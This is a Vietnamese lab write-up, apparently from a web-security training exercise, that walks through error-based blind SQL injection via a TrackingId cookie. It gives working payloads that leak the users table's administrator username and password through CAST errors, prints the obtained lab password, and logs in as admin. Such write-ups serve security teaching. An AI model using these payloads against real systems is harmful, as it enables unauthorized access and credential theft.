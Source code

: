## 🍪 Câu 13: SQL Injection qua Cookie - Blind SQL Injection

### 🎯 Mục tiêu
Khai thác SQL injection thông qua cookie TrackingId để lấy thông tin đăng nhập administrator bằng Blind SQL Injection.
<div align="center">
  <img src="img/img14.jpg" alt="Giao diện trang web - Điểm tấn công SQL injection" width="600">
  <br>
  <em>Hình 14: Giao diện trang web và các điểm có thể bị tấn công SQL injection</em>
</div>
### 🔍 Quá trình thực hiện

#### 🔸 Bước 1: Sử dụng Burp Suite để bắt gói tin
- 🛠️ Sử dụng Burp Suite để intercept HTTP request
- 🍪 Phát hiện cookie `TrackingId` có thể bị khai thác
- 📡 Bắt gói tin GET request

#### 🔸 Bước 2: Kiểm tra lỗ hổng SQL injection
> **💡 Payload sử dụng:**
```sql
TrackingId=pC2P3BeD9Zq3ym5T'
```

> **📊 Kết quả:**
- ❌ Xuất hiện 2 thông báo lỗi SQL
- 🔍 Lỗi do chuỗi SQL chưa được kết thúc đúng cách
- 💡 Truy vấn trở thành: `SELECT * FROM tracking WHERE id = ' ''`

#### 🔸 Bước 3: Kết thúc truy vấn SQL
> **💡 Payload sử dụng:**
```sql
TrackingId=pC2P3BeD9Zq3ym5T'--
```

> **📊 Kết quả:**
- ✅ Không còn thông báo lỗi
- ✅ Xác nhận có thể khai thác SQL injection qua cookie

#### 🔸 Bước 4: Blind SQL Injection - Kiểm tra cấu trúc
> **💡 Payload sử dụng:**
```sql
TrackingId=pC2P3BeD9Zq3ym5T' AND 1=CAST((SELECT 1) AS int)--
```

> **📊 Kết quả:**
- ✅ Truy vấn không có lỗi
- ✅ Xác nhận có thể thực hiện Blind SQL Injection

#### 🔸 Bước 5: Lấy tên người dùng đầu tiên
> **💡 Payload sử dụng:**
```sql
TrackingId=pC2P3BeD9Zq3ym5T' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

> **📊 Kết quả:**
- ❌ Xuất hiện 2 lỗi nhưng đây là lỗi mong muốn
- ✅ Hiển thị tên người dùng đầu tiên: **administrator**
- 🎯 Xác nhận người dùng đầu tiên là admin

#### 🔸 Bước 6: Lấy mật khẩu của administrator
> **💡 Payload sử dụng:**
```sql
TrackingId=pC2P3BeD9Zq3ym5T' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

> **📊 Kết quả:**
- ❌ Xuất hiện lỗi nhưng chứa thông tin mật khẩu
- ✅ Lấy được mật khẩu: **osu96xzqbyjs9r61c7ou**

### 🚨 Thông tin tài khoản bị lộ
```bash
┌───────────────┬─────────────────────────┐
│ Username      │ Password                │
├───────────────┼─────────────────────────┤
│ Administrator │ osu96xzqbyjs9r61c7ou    │
└───────────────┴─────────────────────────┘
```

#### 🔸 Bước 7: Thực hiện đăng nhập
- 🔑 Sử dụng thông tin tài khoản administrator đã lấy được
- ✅ Thực hiện đăng nhập thành công với quyền administrator

### 🎯 Kết luận
> ⚠️ **Cảnh báo nghiêm trọng:** Đã thành công khai thác lỗ hổng Blind SQL Injection thông qua cookie TrackingId để lấy thông tin đăng nhập administrator.

> 💡 **Điểm đặc biệt:** Đây là ví dụ về Blind SQL Injection - một kỹ thuật tấn công phức tạp hơn khi không thể thấy kết quả trực tiếp mà phải dựa vào thông báo lỗi để suy luận thông tin.

---
